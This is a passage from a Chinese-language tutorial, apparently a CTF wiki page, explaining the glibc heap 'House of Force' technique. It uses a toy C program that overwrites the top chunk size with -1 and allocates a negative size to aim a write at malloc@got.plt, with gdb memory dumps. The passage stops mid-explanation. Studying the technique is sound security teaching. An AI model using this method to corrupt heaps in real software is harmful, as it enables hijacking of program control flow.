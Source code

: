 **與此同時，我們需要注意的是，topchunk的size也會更新，其更新的方法如下**

```c
victim = av->top;
size   = chunksize(victim);
remainder_size = size - nb;
set_head(remainder, remainder_size | PREV_INUSE);
```

所以，如果我們想要下次在指定位置分配大小爲 x 的 chunk，我們需要確保 remainder_size 不小於 x+ MINSIZE。

## 簡單示例1
在學習完 HOF 的原理之後，我們這裏通過一個示例來說明 HOF 的利用，這個例子的目標是通過HOF來篡改 `malloc@got.plt` 實現劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 這裏把top chunk的size域改爲0xffffffffffffffff
    malloc(-4120);  // <=== 減小top chunk指針
    malloc(0x10);   // <=== 分配塊實現任意地址寫
}
```

首先，我們分配一個 0x10 字節大小的塊

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之後把 top chunk 的 size 改爲 0xffffffffffffffff，在真正的題目中，這一步可以通過堆溢出等漏洞來實現。
因爲 -1 在補碼中是以 0xffffffffffffffff 表示的，所以我們直接賦值 -1 就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此時的 top chunk 位置，當我們進行下一次分配的時候就會更改 top chunk 的位置到我們想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此時一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下來我們執行`malloc(-4120);`，-4120是怎麼得出的呢？
首先，我們需要明確要寫入的目的地址，這裏我編譯程序後，0x601020 是 `malloc@got.plt` 的地址
